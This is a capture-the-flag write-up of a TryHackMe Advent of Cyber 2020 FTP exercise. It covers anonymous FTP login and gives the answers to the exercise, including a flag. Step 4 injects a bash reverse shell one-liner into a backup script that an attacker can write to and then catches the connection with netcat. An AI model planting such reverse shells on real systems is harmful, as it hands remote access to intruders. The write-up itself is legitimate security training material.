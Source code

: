 # Day 9 - Anyone can be Santa!

**Date:** 9, December, 2020

**Author:** Dhilip Sanjay S

---
## FTP
- File Transfer Protocol

---
## Solutions

### 1) Name the directory on the FTP server that has data accessible by the "anonymous" user
- **Answer:** public
- **Steps to reproduce:**
    - To connect to FTP server - `ftp <MACHINE IP>`.
    - Provide username as `anonymous`.
    - Type `ls` to list the directories. 
    - You'll find that only the **public** directory is accessible.
---

### 2) What script gets executed within this directory?
- **Answer:** backup.sh

---

### 3) What movie did Santa have on his Christmas shopping list?
- **Answer:** The Polar Express
- **Steps to reproduce:**
    - To download the shopping list - `get shoppinglist.txt` 
---

### 4) Re-upload this script to contain malicious data
- **Answer:** THM{even_you_can_be_santa}
- **Steps to reproduce:**
    - To download the backup.sh - `get backup.sh` 
    - Add the following script to the file: 
    ```bash
    bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1
    ```
    - Reupload backup.sh - `put backup.sh`

- **Note:** You must listen to the connection using `netcat`. If you don't know know how to do it, refer Day02. After getting the reverse shell, you can `cat flag.txt` to get the flag.

---
